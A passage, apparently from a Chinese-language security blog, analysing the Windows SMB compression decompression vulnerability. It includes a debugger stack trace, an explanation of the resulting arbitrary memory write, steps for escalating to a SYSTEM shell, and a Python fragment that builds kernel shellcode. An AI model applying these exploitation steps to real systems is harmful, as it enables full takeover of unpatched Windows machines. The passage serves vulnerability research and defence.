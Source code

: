 ```
kd> kn# Child-SP          RetAddr           Call Site
0b fffff904`bd3a2dd0 fffff806`1b97e5ae nt!ExFreePool+0x9
0c fffff904`bd3a2e00 fffff806`1b9d7f41 srvnet!SmbCompressionDecompress+0xfe
0d fffff904`bd3a2e70 fffff806`1b9d699e srv2+0x17f41
0e fffff904`bd3a2ed0 fffff806`1ba19a9f srv2+0x1699e
0f fffff904`bd3a2f00 fffff806`1cdc496e srv2+0x59a9f
```
    
<center>

如上文0x0C号栈帧所示，`srvnet` 模块中的 `SmbCompressionDecompress` 函数在调用 `ExFreePoo` 是触发蓝屏的直接因素。

最后我们定位到了内存复制函数`qmemcpy`，发现其在写入数据大小范围内有其他的Pool块时，将会导致`ExFreePoolWithTag()`时出错

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8716.png)

**在SMB进行数据解压造成内存溢出时，攻击者就获得了一次任意地址写入任意数据的能力。**  

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8717.png)

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8718.png)
</center>

### 3.2.1 远程控制攻击思路

#### （1） 验证程序首先创建到SMS server的会话连接（记为session）。

#### （2）验证程序获取自身token数据结构中privilege成员在内核中的地址（记tokenAddr）。

#### （3）验证程序通过session发送畸形压缩数据（记为evilData）给SMB server触发漏洞。其中，evilData包含tokenAddr、权限数据、溢出占位数据。

#### （4） SMS server收到evilData后触发漏洞，并修改tokenAddr地址处的权限数据，从而提升验证程序的权限。

#### （5）验证程序获取权限后对winlogon进行控制，来创建system用户shell。
<center>

 以下是在有了任意物理内存读，然后通过在物理页面暴力搜索找到HAL的堆地址，然后从`HAL`的堆地址中找到`HalpInterruptController`和`HalpApicRequestInterrupt`两个值来构造内核态的Shellcode </center>

```py
def build_shellcode():
    global KERNEL_SHELLCODE
    KERNEL_SHELLCODE += struct.pack("<Q", PHALP_INTERRUPT +
                                    HALP_APIC_REQ_INTERRUPT_OFFSET)
    KERNEL_SHELLCODE += struct.pack("<Q", PHALP_APIC_INTERRUPT)
    KERNEL_SHELLCODE += USER_PAYLOAD
```

<center>

通过任意内存写操作将构造好的`ShellCode`写到`KUSER_SHARED_DATA`地址上。最终通过任意内存写操作将指令指针（`PHALP_INTERRUPT` + `HALP_APIC_REQ_INTERRUPT_OFFSET`）指向`KUSER_SHARED_DATA`地址上的`ShellCode`去执行。</center>
